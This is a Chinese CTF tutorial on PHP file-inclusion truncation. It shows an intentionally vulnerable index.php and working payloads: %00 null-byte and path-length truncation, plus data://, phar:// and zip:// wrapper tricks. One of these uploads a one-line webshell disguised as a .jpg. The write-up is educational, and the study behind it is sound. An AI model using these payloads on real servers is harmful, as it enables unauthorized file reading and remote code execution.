 # CTF中截断在文件包含中的应用



## 0x01 CTF中的文件包含

文件包含在CTF中算是一种比较常见的题型。如果单独作为一题的话基本上都是考你能否找到这个文件。还有一种就是混合型的和其他知识点一起考，通过文件包含找到源码然后再代码审计。

## 0x02 常规截断

要求：

- php版本小于5.3.4
- magic_quotes_gpc为off状态

漏洞文件index.php

```
<?php
if (empty($_GET["file"])){
    echo('../flag.php');
    return;
}
else{
    $filename='pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome.txt").'.html';
    include $filename;
}
?>

```

flag文件放在上层目录

这里限制了后缀名，我们需要通过截断才能访问到flag文件利用代码：

```
index.php?file=../../flag.php%00

```

![img](https://pic2.zhimg.com/80/v2-0f8bb8b0f13f0c41f911567e5c04a7e2_hd.jpg)

%00 会被解析为0x00，所以导致截断的发生我们通过截断成功的绕过了后缀限制

## 0x03 路径长度截断

我们现在已经知道使用%00截断有两个条件php版本小于5.3.4和magic_quotes_gpc为off状态。如果这时我们将magic_quotes_gpc改为on那么就不能截断了，因为开启magic_quotes_gpc后%00会被加上一个反斜杠转义掉

![img](https://pic4.zhimg.com/80/v2-4ae67b246f19f5fe0d2355c77021bfef_hd.jpg)

那么我们这时候有没有办法绕过这个限制呢？答案是肯定的，但依旧有一个条件那就是php版本小于5.3.10我们的代码依旧不变漏洞文件index.php

```
<?php
if (empty($_GET["file"])){
    echo('../flag.php');
    return;
}
else{
    $filename='pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome.txt").'.html';
    include $filename;
}
?>

```

flag文件放在上层目录这时我们可以使用字符 .    /.   和  ./  来进行绕过，因为文件路径有长度限制

- windows 259个bytes
- linux 4096个bytes

在windows下需要.字符最少的利用POC1：

```
file=../../flag.php..............................................................................................................................................................................................................................................

```

![img](https://pic2.zhimg.com/80/v2-727b4d978c8ed0f1676673c26851761d_hd.jpg)

在windows下需要.字符最少的利用POC2：

```
file=../../flag.php./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

```

![img](https://pic1.zhimg.com/80/v2-9ca3a3374552ee9db6dc65c999b21a3a_hd.jpg)

将flag.php改为flag1.php在windows下需要.字符最少的利用POC3：

```
file=../../flag1.php/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

```

![img](https://pic1.zhimg.com/80/v2-a9471dd64354a01407e18a5a1cccb2b9_hd.jpg)

我们发现在使用payload3时将文件名改为了flag1.php，而payload2和payload3则是一个.开始，一个/开始。这和文件长度的奇偶性有关，当为偶数的时候我们选择payload2，为奇数的时候我们选择payload3

## 0x04 总结

使用截断的时候根据题目的具体情况使用不同的截断方法，遇到奇偶问题的时候我们可以丢一串很长的./到URL后面然后再调整第一个字符即可。一般来说%00就足够了，当%00不行时再尝试./的组合

### 远程文件包含

当`allow_url_include=on`时，可以远程包含恶意攻击者主机上的恶意文件。或者使用PHP输入输出流进行利用

### 伪协议

##### data://text/plain

1. 解释

数据流封装器，和php://相似都是利用了流的概念， 将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入的payload来实现目的

1. 用法

| 12   | ?file=data://text/plain;base64,base64编码的payload |
| ---- | ---------------------------------------- |
|      |                                          |

1. 注意

`闭合

如果`php.ini`里的`allow_url_include=On(PHP < 5.30)`，就可以造成任意代码执行，同理在这就可以理解成远程文件包含（RFI）

#### phar://

1. 解释

数据流包装器，自PHP5.3.0起开始有效，正好契合上面两个伪协议的利用条件，说通俗点就是php解压缩包的一个函数，解压的压缩包与后缀无关

1. 用法

| 123456 | ?file=phar://压缩包/内部文件 写一个shell.php文件，里面包含一句话木马。然后，压缩成xxx.zip。然后改名为xxx.jpg进行上传。最后使用phar进行包含，http://xxx.xxx.xxx.xxx/index.php?id=phar://路径/xxx.jpg/shell |
| ------ | ---------------------------------------- |
|        |                                          |

1. 注意

| 123456 | php版本需要大于5.3，这就说明上述协议已经挂掉了，但又出来了phar协议前仆后继压缩包一般是phar后缀，需要代码来生成，但是zip后缀也可以压缩包需要时zip协议压缩，rar不行，tar等格式待测利用url的压缩包后缀可以是任意后缀如果`php.ini`里的`allow_url_include=On(PHP > 5.30)`，就可以造成任意代码执行，同理在这就可以理解成远程文件包含（RFI） |
| ------ | ---------------------------------------- |
|        |                                          |

1. zip协议绕过

| 12   | zip://xxx.jpg%23shell |
| ---- | --------------------- |
|      |                       |